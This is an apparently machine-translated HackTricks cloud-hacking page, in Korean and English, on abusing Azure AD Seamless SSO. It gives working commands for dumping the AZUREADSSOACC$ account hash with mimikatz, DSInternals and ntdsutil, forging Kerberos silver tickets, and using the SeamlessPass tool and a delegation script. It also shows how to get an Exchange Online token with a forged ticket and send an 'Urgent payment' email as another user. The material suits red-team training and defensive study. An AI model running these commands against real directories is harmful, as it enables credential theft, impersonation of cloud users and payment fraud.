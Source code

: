 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)는 **사용자가 회사 네트워크에 연결된 회사 장치에서 있을 때 자동으로 로그인**합니다. 활성화되면, **사용자는 Azure AD에 로그인하기 위해 비밀번호를 입력할 필요가 없으며**, 일반적으로 사용자 이름도 입력할 필요가 없습니다. 이 기능은 사용자가 추가적인 온프레미스 구성 요소 없이 클라우드 기반 애플리케이션에 쉽게 접근할 수 있도록 합니다.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 **온프레미스 도메인에 가입된 PC에서** 사용자를 **로그인**합니다.

이것은 [**PHS (Password Hash Sync)**](phs-password-hash-sync.md)와 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) 모두에서 지원됩니다.

데스크탑 SSO는 인증을 위해 **Kerberos**를 사용합니다. 구성되면, Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`라는 컴퓨터 계정을 생성**합니다. `AZUREADSSOACC$` 계정의 비밀번호는 **구성 중에 Azure AD에 평문으로 전송**됩니다.

**Kerberos 티켓**은 비밀번호의 **NTHash (MD4)**를 사용하여 **암호화**되며, Azure AD는 전송된 비밀번호를 사용하여 티켓을 복호화합니다.

**Azure AD**는 Kerberos **티켓**을 수락하는 **엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인에 가입된 머신의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### On-prem -> cloud

사용자 **`AZUREADSSOACC$`의 비밀번호는 절대 변경되지 않습니다**. 따라서 도메인 관리자는 **이 계정의 해시를 손상시킬 수 있으며**, 이를 사용하여 **은 티켓**을 생성하여 **동기화된 모든 온프레미스 사용자**로 Azure에 연결할 수 있습니다.
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
해시를 사용하여 이제 **실버 티켓을 생성할 수 있습니다**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Initiate the Browser:** Mozilla Firefox should be launched.
2. **Configure the Browser:**
* Navigate to **`about:config`**.
* Set the preference for [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) to the specified [values](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Access the Web Application:**
* Visit a web application that is integrated with the organization's AAD domain. A common example is [Office 365](https://portal.office.com/).
4. **Authentication Process:**
* At the logon screen, the username should be entered, leaving the password field blank.
* To proceed, press either TAB or ENTER.

{% hint style="success" %}
이것은 MFA가 활성화된 경우 우회하지 않습니다
{% endhint %}

#### Option 2 without dcsync - SeamlessPass

It's also possible to perform this attack **without a dcsync attack** to be more stealth as [explained in this blog post](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). For that you only need one of the following:

* **A compromised user's TGT:** Even if you don't have one but the user was compromised, you can get one using fake TGT delegation trick implemented in many tools such as [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) and [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: If you have the KRBTGT key, you can create the TGT you need for the attacked user.
* **A compromised user’s NTLM hash or AES key:** SeamlessPass will communicate with the domain controller with this information to generate the TGT
* **AZUREADSSOACC$ account NTLM hash or AES key:** With this info and the user’s Security Identifier (SID) to attack it's possible to create a service ticket an authenticate with the cloud (as performed in the previous method).

Finally, with the TGT it's possible to use the tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) with:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Firefox를 원활한 SSO와 함께 작동하도록 설정하는 추가 정보는 [**이 블로그 게시물에서**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) 확인할 수 있습니다.

#### ~~클라우드 전용 사용자에 대한 Kerberos 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory 관리자가 Azure AD Connect에 접근할 수 있다면, **클라우드 사용자에 대한 SID를 설정할 수 있습니다**. 이렇게 하면 Kerberos **티켓**이 **클라우드 전용 사용자에 대해서도 생성될 수 있습니다**. 유일한 요구 사항은 SID가 적절한 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))여야 한다는 것입니다.

{% hint style="danger" %}
클라우드 전용 관리자 사용자의 SID 변경은 현재 **Microsoft에 의해 차단되었습니다**.\
자세한 정보는 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)를 확인하세요.
{% endhint %}

### 온프레미스 -> 클라우드 리소스 기반 제약 위임을 통한 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 있는 컨테이너 또는 OU에서 컴퓨터 계정을 관리할 수 있는 사람은 **계정에 대한 리소스 기반 제약 위임을 구성하고 접근할 수 있습니다**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
